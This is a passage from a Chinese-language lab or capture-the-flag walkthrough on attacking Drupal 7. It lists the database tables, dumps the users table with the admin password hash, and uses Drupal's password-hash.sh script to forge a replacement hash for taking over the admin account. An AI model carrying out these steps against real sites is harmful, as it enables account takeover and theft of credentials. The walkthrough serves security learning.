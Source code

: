 ```plaintext
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_comment_statistics     |
| node_revision               |
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| system                      |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
+-----------------------------+
80 rows in set (0.00 sec)
```

```plaintext
1.select * from users;		#获取users的内容
2.name：admin |pass： $S$DbpIRKV5QXrJK4Gbhb.LDFoTjqoYNKAOB.DY3V1BL.JMbMkZANhY
```

- 经过网上搜索知道了在**drupal7**的安装目录中的*scripts*下，有一些开发者写好的PHP脚本，可以执行一些操作；

![29b907c4-753f-4b59-83b0-83abd0515151](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/29b907c4-753f-4b59-83b0-83abd0515151.png)

- 我们这次利用的脚本的名称是：**password-hash.sh；**

```php
php scripts/password-hash.sh '123456'>new_paswd.txt		#把admin的密码改成123456并储存在new_passwd.txt中
```
